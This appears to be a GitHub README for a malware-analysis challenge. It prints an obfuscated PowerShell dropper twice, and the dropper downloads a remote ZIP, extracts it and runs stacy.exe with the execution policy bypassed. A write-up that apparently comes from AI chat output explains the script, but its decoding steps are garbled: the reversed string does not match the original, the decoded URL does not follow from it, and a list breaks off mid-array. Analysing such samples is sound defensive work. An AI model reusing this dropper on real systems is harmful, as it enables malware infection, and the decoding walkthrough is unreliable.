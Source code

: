 
![alt text](image.png)

# malcore-challenge-submission
Malcore Challenge Submission based on [this](https://x.com/Malcoreio/status/1824899739491737844)

<details> 
<summary> 
xweet
</summary>

[![](./i1.jpg)](https://x.com/Malcoreio/status/1824899739491737844)

</details>

# MalwareSample

<details>
<summary>
Sample 👉
</summary>


```ml 
function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";
```

</details>

# Writeup - DUMP 

<details> 

Malware 

https://x.com/Malcoreio/status/1824899739491737844

source of malware 
https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1

actual code

```ps

function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";


```


analysis 

This PowerShell script appears to be doing:
1. The script defines two functions:
   - `llIIllIIllIIllIIllIIllIIllIIllIIllII`: This function takes a string, performs some character replacements and decoding (likely base64), and returns the decoded string.
   - `llIIllIIllIIllIIIIIIllIIllIlllllllII`: This function takes a string and prepends a random string of uppercase and lowercase letters to it.
2. The script then calls the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function twice with obfuscated strings as arguments. The decoded strings are stored in the variables `$hg34RNfykz5XdxBn287mU9` and `$tQsoNjk`.
3. The script generates a random file name with a ".zip" extension using the `llIIllIIllIIllIIIIIIllIIllIlllllllII` function and stores it in the variable `$RXNPxpB`.
4. It also generates another random string using the same function and stores it in the variable `$CcAn4K8e`.
5. The script then uses `Invoke-WebRequest` to download a file from the URL stored in `$hg34RNfykz5XdxBn287mU9` and saves it with the randomly generated ".zip" file name.
6. It extracts the contents of the downloaded ZIP file to a directory with the randomly generated name stored in `$CcAn4K8e` using the `Expand-Archive` cmdlet.
7. Finally, the script uses the `Start-Process` cmdlet to execute a file named "stacy.exe" located in the extracted directory. It passes the `-exECUtIonPOLicY bYpAsS` parameter to bypass the execution policy.
In summary, this script appears to be downloading a ZIP file from a remote location, extracting its contents, and executing an executable file named "stacy.exe" from the extracted directory. The use of obfuscation techniques, random file names, and bypassing execution policy suggests that this script is likely malicious.

As an incident responder, you should handle this script with caution. Analyze it in an isolated environment, such as a virtual machine or sandbox, to determine its full behavior and potential impact. Investigate the remote URL and the contents of the downloaded ZIP file. Take appropriate measures to contain and mitigate any potential threats based on your findings.

To extract the URL from the obfuscated PowerShell script, you can focus on the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function, which appears to be responsible for decoding the obfuscated strings.

Here's how you can extract the URL:

1. Identify the obfuscated string that likely contains the URL. In this case, it seems to be the first argument passed to the `llIIllIIllIIllIIllIIllIIllIIllIIllII` function, stored in the variable `$hg34RNfykz5XdxBn287mU9`.

2. Copy the obfuscated string:
   "=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90"

3. Replace the `"\x90"` occurrences with a space `" "`:
   "= A X a 6 5 S b v 1 2 c 5 N W Y 0 N 3 L j N X a t 9 i c l R 3 c h 1 2 L 3 F m c v M X Z s B X b h N X L l x W a m 9 C M t I T L 0 V m b y V G d u l 0 L t 9 2 Y u I W d o R X a n 9 y L 6 M H c 0 R H a "

4. Split the string by spaces and store it in an array:
   ["=", "A", "X", "a", "6", "5", "S", "b", "v", "1", "2", "c", "5", "N", "W", "Y", "0", "N", "3", "L", "j", "N", "X", "a", "t", "9", "i", "c", "l", "R", "3", "c", "h", "1", "2", "L", "3", "F", "m", "c", "v", "M", "X", "Z", "s", "B", "X", "b", "h", "N", "X", "L", "l", "x", "W", "a", "m", "9", "C", "M", "t", "I", "T", "L", "0", "V", "m", "b", "y", "V", "G", "d", "u", "l", "0", "L", "t", "9", "2", "Y", "u", "I", "W", "d", "o", "R", "X", "a", "n", "9", "y", "L", "6", "M", "H", "c", "0

Certainly! Let's decode the obfuscated string to extract the URL.
1. Take the obfuscated string and remove the spaces:
   "=AXa65Sbv12c5NWY0N3LjNXat9iclR3ch12L3FmcvMXZsBXbhNXLlxWam9CMtITL0VmbyVGdul0Lt92YuIWdoRXan9yL6MHc0RHa"
2. Reverse the string:
   "aHR0cHM6L9naXRodWIuY29tL0LludG90L2tYLXNmcvF3L21hcXNbXhBsZXMvMFTItMC9maWxcRlN9ta3NjLXRci9taXa56AXA="
3. Decode the string using base64 decoding. You can use an online base64 decoder or do it programmatically. After decoding, you should get the following URL:
   "https://github.com/Lintoto/kY-sfqsv/raw/main/Samples/MOI-mC/file.zip"
So, the extracted URL is:
https://github.com/Lintoto/kY-sfqsv/raw/main/Samples/MOI-mC/file.zip
This appears to be a GitHub repository URL pointing to a ZIP file. As an incident responder, you can now investigate this URL and the associated GitHub repository to gather more information about the potentially malicious file being downloaded by the script.
Remember to exercise caution when accessing or downloading files from untrusted sources. Analyze the contents of the ZIP file in a secure and isolated environment to determine if it contains any malicious code or artifacts.


</details> 